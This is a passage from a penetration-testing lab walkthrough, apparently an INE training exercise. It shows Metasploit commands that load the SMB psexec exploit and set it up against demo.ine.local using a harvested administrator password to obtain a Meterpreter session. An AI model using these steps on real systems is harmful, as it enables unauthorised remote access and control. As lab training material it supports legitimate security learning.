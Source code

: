 Check the current user's privileges:

```bash
whoami /priv
```

These commands will help verify that you are operating with elevated (administrator-level) access.

---

#### 3. Obtaining an Elevated Meterpreter Session

We now aim to upgrade our current session to a **Meterpreter** session for more advanced exploitation features.

To do this, we first place the current session in the background:

```bash
CTRL + Z
```

We now return to the **Msfconsole**, where we already have two active sessions: the initial shell session and a Meterpreter session.

Search for the **psexec** exploit module in Metasploit:

```bash
search psexec
```

Select the **SMB psexec** exploit module:

```bash
use exploit/windows/smb/psexec
```

---

#### 4. Setting Up the Psexec Module

Configure the options for the `psexec` exploit to match the target system:

Set the listening port (LPORT) for the Meterpreter session:

```bash
set lport 4422
```

Set the target's IP or hostname:

```bash
set rhosts demo.ine.local
```

Set the SMB username and password obtained during the privilege escalation phase:

```bash
set smbuser Administrator
set smbpass hello_123321
```

- **`smbuser`**: The administrator account username.
- **`smbpass`**: The password for the administrator account (`hello_123321` in this case).

